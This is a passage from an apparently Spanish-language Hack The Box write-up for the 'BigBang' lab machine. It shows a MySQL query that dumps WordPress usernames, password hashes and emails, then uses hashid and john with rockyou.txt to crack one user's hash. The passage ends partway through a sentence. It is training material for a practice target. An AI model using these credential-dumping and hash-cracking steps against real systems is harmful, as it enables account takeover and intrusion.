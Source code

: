 Como ya conocemos la estructura de la base de datos de `wordpress` (en teoría). Consultaremos los registros existentes de **usuarios** filtrando por los campos que nos interesan en la tabla `wp_users`

~~~ bash
MySQL [(none)]> select user_login,user_pass,user_email from wordpress.wp_users;
+------------+------------------------------------+----------------------+
| user_login | user_pass                          | user_email           |
+------------+------------------------------------+----------------------+
| root       | $P$Beh5HLRUlTi1LpLEAstRyXaaBOJICj1 | root@bigbang.htb     |
| shawking   | $P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./ | shawking@bigbang.htb |
+------------+------------------------------------+----------------------+
2 rows in set (0.191 sec)
~~~

Veremos dos usuarios que muy posiblemente sean válidos en el sistema, `root` y `shawking`


## Hash Cracking

Guardaremos el hash para el usuario `shawking` en un archivo para intentar crackearlo con `john`o `hashcat`

~~~ bash
cat hash.txt                                               

$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./
~~~

Antes de intentar crackear los hashes, podemos identificar el algoritmo usado para calcular el hash con la herramienta `hashid`

~~~ bash
hashid '$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./'
Analyzing '$P$Br7LUHG9NjNk6/QSYm2chNHfxWdoK./'
[+] Wordpress ≥ v2.6.2 
[+] Joomla ≥ v2.5.18 
[+] PHPass' Portable Hash
~~~

Utilizaremos un diccionario, por ejemplo `rockyou.txt` (más usado) para intentar validar si la contraseña forma parte de una de las líneas de este archivo

~~~ bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 256/256 AVX2 8x3])
Cost 1 (iteration count) is 8192 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
quantumphysics   (?)     
1g 0:00:03:16 DONE (2025-05-03 14:57) 0.005088g/s 22665p/s 22665c/s 22665C/s quarashi33..quaniyah
Use the "--show --format=phpass" options to display all of the cracked passwords reliably
Session completed.
~~~

Luego de esperar bastante rato, encontramos una contraseña `quantumphysics`. Opcionalmente podemos ver la línea exacta donde se encontraba esta contraseña
